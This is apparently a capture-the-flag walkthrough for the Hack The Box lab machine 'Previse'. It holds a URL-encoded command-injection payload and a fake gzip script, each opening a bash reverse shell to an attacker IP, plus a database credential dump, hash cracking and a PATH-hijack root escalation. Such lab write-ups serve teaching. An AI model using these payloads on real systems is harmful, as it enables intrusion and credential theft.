# Previse

As always let's start with `nmap`

```console
$ nmap -sV 10.10.11.104
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-15 20:45 CET
Nmap scan report for 10.10.11.104
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port `80` there is a login portal, first thing to try is sqlmap



With dirbuster we found the page `http://10.10.11.104/nav.php`



And also this other links
- `http://10.10.11.104/footer.php`
- `http://10.10.11.104/download.pph`
- `http://10.10.11.104/header.php`

Unfortunately all links need authentication to work

If we capture the request to the home with burp we notice that some page is returned



We can modify this respose and chage the status code to 200 to visuliaze the page











And now we have access to the profile page, let's create a profile
 
In the `http://10.10.11.104/files.php` it's possibile to upload a `.php`, so probably we can open a reverse shell, so let's upload the revers shell php file and find to let the server open it



It didn't work, but the `SITEBACKUP.ZIP` there is all the php pages of the website

Analyzing the `logs.php` file we see that some code is executed, and the `delim` parameter is taken from the user

```python
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
  
```
We can run every command we want, let's open a reverse shell



```
comma%20%26%26%20%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E63%2F4242%200%3E%261%27
```

We now have acces to the shell with user `www-data`, to get the flag we need to become m4lwhere




In the other file of the server we found this, that seem a lot interesting



```php
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Whit this credential we can dump the whole DB

```console
mysqldump --user=root --password='mySQL_p@ssw0rd!:)' previse > /var/www/html/dump.sql
```

We can not visit http://10.10.11.104/dump.sql and download the file, open whit some sql interface and extract the data we need


```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```

Let's crack this hash

```console
$ john --wordlist=/home/marco/Files/rockyou.txt --format=md5crypt-long toCrack
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:02:32 DONE (2021-11-26 21:51) 0.006564g/s 48665p/s 48665c/s 48665C/s ilovecoke95..ilovecody*
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We can try to use this password as user password for `m4lwhere:x:1000:1000:m4lwhere:/home/m4lwhere:/bin/bash`

```console
$ ssh m4lwhere@10.10.11.104

$ ls
user.txt

$ cat user.txt
45920176ac825fe79633c3d36c4b5221
```

#### **USER OWN** >> `45920176ac825fe79633c3d36c4b5221`

Type for take the system

```console
$ sudo -l
[sudo] password for m4lwhere: ilovecody112235!
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Let's analyze this file

```sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We can create a custom gzip executable and spawn a root shell

```console
$ cat gzip
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.63/4242 0>&1'

$ chmod +x gzip
```

Now add `export PATH="$HOME/:$PATH"` to the `.bashrc` file, open a new shell and execute `access_backup.sh`. This will execute our reverse shell

```console
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

```console
$ nc -l 4242
root@previse:~# whoami
root

$ ls
root.txt

$ cat root.txt
0278941a9cb5f05c4fbedf38add392fe
```

#### **SYSTEM OWN** >> `0278941a9cb5f05c4fbedf38add392fe`